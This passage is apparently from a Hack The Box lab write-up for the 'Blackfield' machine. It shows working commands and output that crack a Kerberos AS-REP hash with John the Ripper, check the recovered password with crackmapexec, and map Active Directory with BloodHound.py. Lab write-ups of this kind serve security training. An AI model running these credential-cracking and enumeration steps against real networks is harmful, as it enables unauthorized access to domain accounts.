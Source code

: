 John The Ripper, a popular password cracking tool, already supports this hash type and providing the standard rockyou.txt wordlist we're able to crack this very quickly. The password is: `#00^BlackKnight`

```
snowscan@kali:~/htb/blackfield_demo$ john -w=/usr/share/wordlists/rockyou.txt asrep.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
#00^BlackKnight  ($krb5asrep$23$support@BLACKFIELD)
```

## Identify attack path from support to audit2020

Using crackmapexec, we can confirm that the credentials are valid and look for additional shares that may be available. Here we see that the password for user support is valid but we don't have any additional access.

```
snowscan@kali:~/htb/blackfield_demo$ crackmapexec smb 10.10.10.192 -u support -p '#00^BlackKnight' --shares
SMB         10.10.10.192    445    DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\support:#00^BlackKnight 
SMB         10.10.10.192    445    DC01             [+] Enumerated shares
SMB         10.10.10.192    445    DC01             Share           Permissions     Remark
SMB         10.10.10.192    445    DC01             -----           -----------     ------
SMB         10.10.10.192    445    DC01             ADMIN$                          Remote Admin
SMB         10.10.10.192    445    DC01             C$                              Default share
SMB         10.10.10.192    445    DC01             forensic                        Forensic / Audit share.
SMB         10.10.10.192    445    DC01             IPC$            READ            Remote IPC
SMB         10.10.10.192    445    DC01             NETLOGON        READ            Logon server share 
SMB         10.10.10.192    445    DC01             profiles$       READ            
SMB         10.10.10.192    445    DC01             SYSVOL          READ            Logon server share
```

To look for attack paths in Active Directory we'll use Bloodhound, an Electron based tool that uses a neo4j database fed by a data collector to reveal hidden or unintended relationships between objects. The ingestor that comes with Bloodhound is written in C# and runs on Windows but there is also a Python-based ingestor that we'll use instead. The ingestor will connect to Active Directory with the account credentials and download the list of computers, users, groups and access-lists then save it to a bunch of JSON files.

```
snowscan@kali:~/htb/blackfield_demo$ python3 ~/tools/BloodHound.py/bloodhound.py -c all -u support -p '#00^BlackKnight' -d blackfield.local -ns 10.10.10.192
INFO: Found AD domain: blackfield.local
INFO: Connecting to LDAP server: dc01.blackfield.local
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 18 computers
INFO: Connecting to LDAP server: dc01.blackfield.local
INFO: Found 315 users
INFO: Connecting to GC LDAP server: dc01.blackfield.local
INFO: Found 51 groups
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC01.BLACKFIELD.local
INFO: Done in 00M 06S

snowscan@kali:~/htb/blackfield_demo$ ls -l *.json
```